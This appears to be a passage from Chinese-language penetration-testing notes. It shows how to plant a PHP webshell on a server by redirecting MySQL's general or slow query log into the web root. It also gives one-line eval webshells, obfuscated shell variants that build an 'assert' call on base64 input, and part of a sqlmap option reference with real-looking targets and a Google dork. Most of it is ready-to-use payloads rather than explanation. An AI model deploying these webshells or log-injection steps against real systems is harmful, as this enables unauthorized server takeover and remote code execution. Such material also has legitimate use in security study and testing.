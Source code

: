 当`secure-file-friv`的值为null时,表示mysql不允许导出文件,mysql `5.6.34`版本后默认值为null,且不支持sql语句动态修改

### 通过日志写shell

```sql
show variables like '%general%';
set global general_log = on;
set global general_log_file = '/var/www/html/1.php';
select '<?php phpinfo();?>';
select '<?php @eval($_POST[1]);?>';

```

php变形shell:

```php
<?php $sl = create_function('', @$_REQUEST['1']);$sl();?>
<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['1']));?>

```

慢查询日志,默认超过10秒的查询语句会被记录到慢查询日志:

```sql
how variables like '%slow_query_log%';
set global slow_query_log=1;
set global slow_query_log_file='C:\\phpStudy\\WWW\\1.php';
select '<?php @eval($_POST[1]);?>' or sleep(11);
```


## SQLMAP的使用

### options

-v 显示信息的级别，0-6：

- 0：只显示python错误和一些严重信息；
- 1：显示基本信息（默认）；
- 2：显示debug信息；
- 3：显示注入过程的payload；
- 4：显示http请求包；
- 5：显示http响应头；
- 6：显示http相应页面。

### target

以下至少需要设置其中一个选项，设置目标 URL

- -d 直接连目标后端接数据库，而不是通过sql注入漏洞，直接通过目标的侦听端口连接，当然需要有目标数据库的账号名和密码。例：-d "mysql://user:password@localhost:3389/database_name" --dbs 查询非常快。
- -u 指定一个url连接，url中必须有？a=aa才行（最常用的参数）例：-u "www.baidu.com/index.php?id=1"
- -l 后接一个log文件，可以是burp等的代理的log文件，之后sqlmap会扫描log中的所有记录。例： -l log.txt
- -x 站点地图，提交给sql一个xml文件。
- -m 后接一个txt文件，文件中是多个url，sqlmap会自动化的检测其中的所有url。例： -m target.txt
- -r 可以将一个post请求方式的数据包保存在一个txt中，sqlmap会通过post方式检测目标。例： -r post.txt
- -g 使用google引擎搜索类似的网址，并且多目标检测。例： -g "inurl:\".php?id=1\"" \是转义
- -c 将使用的命令写在一个文件中，让sqlmap执行文件中的命令，我们可以用--save命令将配置写入文件。
